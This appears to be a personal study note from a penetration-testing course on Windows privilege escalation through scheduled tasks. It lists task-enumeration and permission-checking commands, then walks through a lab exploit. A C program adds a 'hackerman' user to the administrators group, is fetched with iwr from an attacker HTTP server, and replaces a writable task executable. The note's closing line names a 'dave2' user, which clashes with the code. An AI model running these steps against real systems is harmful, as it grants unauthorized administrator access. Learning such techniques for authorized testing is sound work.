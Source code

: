 List all schedules tasks
	`schtasks /query /fo LIST /v
	or
	PS `Get-ScheduledTask`
	`Get-ScheduledTask | Select-Object Author,Trigger,Action,TaskName,TaskPath,Source,Principal | fl`
		PAY ATTENTION TO AUTHOR -- LOOK FOR USERS

Hunt for scheduled tasks for specific users...
	`Get-ScheduledTask | Where-Object -Property Author -match <user> | fl *`

TaskScheduler (GUI)
	we can see tasks, who the author is, their trigger, what they do, etc

Display permissions of executable
	`icacls C:\Path\file.exe`
___

Demonstration of exploiting this
	List all scheduled tasks
		`schtasks /query /fo LIST /v
			C:\Users\steve\Pictures\BackendCacheCleanup.exe
			Created by `daveadmin
	Display permissions of task
		`icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe`
		(F)
		steve and offsec have full permissions 
	Craft malicious C file to add user and add to admin group
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user hackerman password123! /add");
  i = system ("net localgroup administrators hackerman /add");
  
  return 0;
}
```
ok
	Compile
		`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
	Transfer
		start http server
		`iwr -Uri http://192.168.48.3/adduser.exe -Outfile BackendCacheCleanup.exe`
		`move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak`
		`move .\BackendCacheCleanup.exe .\Pictures\`
	Once scheduled task is executed again, dave2 is created, added to local admin group

##### Using Exploits

In this section, we will list 3 different kinds of exploits leading to priv esc and then show two of them in an example
